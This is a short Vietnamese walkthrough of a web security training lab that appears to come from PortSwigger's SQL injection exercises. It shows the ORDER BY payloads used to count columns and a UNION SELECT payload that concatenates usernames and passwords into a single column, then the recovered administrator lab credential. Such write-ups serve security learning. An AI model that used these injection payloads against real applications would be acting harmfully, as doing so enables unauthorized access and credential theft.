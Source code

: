# SQL injection UNION attack, retrieving multiple values in a single column

Bài lab này yêu cầu ta đăng nhập vào hệ thống với quyền quản trị viên bằng cách truy xuất nhiều thông tin dữ liệu bên trong 1 cột của bảng trong database.

Đầu tiên ta kiểm tra xem có bao nhiêu cột trong bảng của database, lần lượt dùng các pay load sau để kiểm tra:
- `filter?category=' ORDER BY 1--`
- `filter?category=' ORDER BY 2--`
- `filter?category=' ORDER BY 3--`( Tới đây thì sever error, vậy là chỉ có 2 cột trong bảng).

Tiếp theo ta sẽ truy cập vào dữ liệu(`username` và `password`) của 1 cột với payload sau:

`filter?category=' UNION SELECT NULL, username || '~' || password FROM users--`(vì có 2 cột mà ta chỉ tìm nhiều dữ liệu trong 1 cột nên phải thêm `NULL` vào để tượng trưng cho 1 cột, ở cột còn lại ta dùng kí tự `~` để ngăn cách dữ liệu `username` và `password`)

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134396951861936178/image.png)

`administrator~gyxzc559wjibvohaoiwk` (Giờ thì đăng nhập vào và hoàn thành bài lab thôi)

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134399009130299474/image.png)
